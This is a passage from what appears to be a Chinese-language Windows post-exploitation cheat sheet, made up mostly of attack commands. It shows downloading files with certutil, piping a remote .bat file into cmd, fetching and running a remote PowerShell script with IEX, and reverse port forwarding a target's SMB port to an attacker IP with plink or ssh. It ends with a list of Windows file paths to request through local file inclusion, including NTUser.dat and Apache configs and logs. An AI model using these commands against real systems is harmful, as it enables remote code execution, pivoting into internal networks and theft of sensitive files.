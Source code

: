 ```
certutil.exe -urlcache -split -f https://myserver/filename outputfilename
```

Certutil 也可用于 base64 编码 / 解码。

```
certutil.exe -encode inputFileName encodedOutputFileName
certutil.exe -decode encodedInputFileName decodedOutputFileName
```

从 Windows 10 1803（2018 年 4 月更新）开始，curl 命令已经实现

```
curl http://server/file -o file
curl http://server/file.bat | cmd
```

并使用 powershell

```
IEX(curl http://server/script.ps1);Invoke-Blah
```

端口转发
----

这对于内部服务不对外开放很有用，通常是防火墙的设置。  
上传 plink.exe 到目标。

在攻击计算机上启动 SSH。

例如，在目标运行中开放 SMB：

```
plink.exe -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

从 Windows 10 1803（2018 年 4 月更新）开始，ssh 客户端现在已包含在内并默认打开！所以你现在可以使用 ssh。

```
ssh -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

本地文件包含列表
--------

这不是完整的列表，安装目录会有所不同，我只列出了常见的。

```
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
```